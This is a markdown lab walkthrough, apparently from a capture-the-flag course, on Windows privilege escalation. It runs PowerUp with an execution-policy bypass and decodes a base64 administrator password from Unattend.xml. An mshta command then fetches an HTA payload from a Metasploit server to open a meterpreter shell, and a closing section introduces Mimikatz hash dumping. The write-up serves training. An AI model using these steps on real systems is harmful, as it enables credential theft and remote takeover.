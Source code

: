 
### Searching for passwords in Windwos configuration files

Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems. This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on systems. The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Autounattend.xml
As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.


### Practical Unattended Installation

**Get access on the machine**

We are running as a student user. The PowerSploit framework and Powerup.ps1 scripts are provided.

- `cd .\Desktop\PowerSploit\Privesc\`
- `ls` We will run the powerup.ps1 Powershell script to find privilege escalation vulnerability.
- `powershell -ep bypass`
- `. .\PowerUp.ps1` Import PowerUp.ps1 script and Invoke-PrivescAudit function.
- `Invoke-PrivescAudit`
- `cat C:\Windows\Panther\Unattend.xml` We have discovered an administrator encoded password.

![image](https://github.com/user-attachments/assets/8d74251c-ee10-40f9-84cb-ebe78b848b33)

- `$password='QWRtaW5AMTIz'` set value
- `$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))` Decoding password with powershell
- `echo $password`

![image](https://github.com/user-attachments/assets/c4f75439-f12a-4a5c-9d4e-b2f2cf4fbcba)

- Open CMD as administrator with the admin PW
- `msfconsole -q` Back on the Kali machine
- `use exploit/windows/misc/hta_server` Running hta_server module to gain meterpreter shell
- `exploit`
- `mshta.exe http://10.10.41.5:8080/ZoRtmIOiuG7WIBS.hta` Gaining a meterpreter shell on the target machine
- `sessions -i 1` find flag
- `cd /`
- `cd C:\\Users\\Administrator\\Desktop`
- `dir`
- `cat flag.txt`


### Dumping hashes with Mimikatz

Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy. It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory. Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached. We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi. Mimikatz will require elevated privileges in order to run correctly. 
